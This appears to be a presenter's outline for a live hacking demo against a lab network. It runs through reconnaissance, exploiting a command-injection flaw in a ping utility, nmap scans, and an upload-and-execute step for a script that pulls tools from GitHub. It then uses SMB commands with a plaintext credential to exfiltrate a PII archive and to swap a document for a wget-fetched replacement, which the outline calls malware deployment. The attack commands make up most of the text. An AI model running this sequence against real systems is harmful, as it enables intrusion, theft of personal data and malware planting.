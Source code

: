 Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack


Commands:
==========
    Login: wier credentials to connect.hackysock.com
    Browse site… Exploratory work
    Over to the ping utility
        note the command injection flaw.
	    whoami
	    pwd
	    cd ../../
	    ls
	    ifconfig -a | grep netmask
	    which nmap
	    nmap -sP 192.168.122.1/24
	    namp -p 135 192.168.122.7
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
====================
    Upload file: Note the path description
	Figure out where uploads go
	Upload script
	CHMOD script
		chmod 775 ../../hackable/uploads/pull_scripts.sh
	Execute script
		../../hackable/uploads/pull_scripts.sh
	Show all the scripts that were pulled down from GitHub

Drop to Shell:
=================
Show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine\
    Show Roger DOC\
        smbclient '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3\
    pull roger doc at CLI\
        smbclient '//192.168.122.7/Private_Files' -c 'lcd /var/tmp; get PII.zip' -W HACYSOC -U wier%frantic-Folly3\
    Push new DOC to FileShare
        smbclient '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3\
        Browse to Roger DOC in Private_Files\
        del rogeradamsCV.doc\
        exit\
        cd /var/tmp\
        wget https://github.com/rnewt6926/Ingram/blob/main/rogeradamsCV.doc \
        smbclient '//192.168.122.7/Private_Files' -c 'lcd /var/tmp; put rogeradamsCV.doc' -W HACKYSOC -U wier%frantic-Folly3\






Wrap up:
========

Narrative